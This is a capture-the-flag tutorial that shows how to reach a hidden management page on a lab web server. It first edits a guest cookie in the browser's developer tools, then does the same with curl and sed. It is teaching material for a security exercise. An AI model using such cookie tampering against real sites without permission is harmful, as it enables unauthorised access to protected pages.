 # Activities

## Tutorial - Chef Hacky McHack

We'll solve this task in 3 ways: from the browser, from the CLI and using Python.
That good we are!

### Virgin: From the Browser

We visit to the URL, open the Developer Tools and go over to the "Storage" tab.
There we see the server has given ass the cookie `u=guest`.

![Hacky McHack - Initial Cookie](./media/hacky-mchack-cookies.png)

Since the challenge is called "Hacky McHack" we set the cookie value to `hacky mchack`.
We notice a new tab has appeared at the top of the page or by inspecting the HTML source: **Manage** (`/manage.php`).
We click on it and get the flag.

```
<ul class="nav-menu list-unstyled">
    <li><a href="index.php" class="smoothScroll">Home</a></li>
    <li><a href="#about" class="smoothScroll">About</a></li>
    <li><a href="#portfolio" class="smoothScroll">Portfolio</a></li>
    <li><a href="#journal" class="smoothScroll">Blog</a></li>
    <li><a href="#contact" class="smoothScroll">Contact</a></li>
        <li><a href="manage.php" class="smoothScroll">Manage</a></li>
    </ul>
```

### Chad v1: From the CLI

We use our good friend `curl`.
First, we save the cookies from the initial page into a cookie jar.
```
root@kali:~# curl -c cookies.txt http://141.85.224.70:8010
[...]

root@kali:~# cat cookies.txt
# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

http://141.85.224.70:8010	FALSE	/	FALSE	1656864260	u	guest
```

Now we edit the file and replace `guest` with `hacky mchack` and send a `GET` request to `/manage.php`.
```
root@kali:~# sed -i s/guest/hacky\ mchack/ cookies.txt

root@kali:~# curl -b cookies.txt $URL/manage.php
```
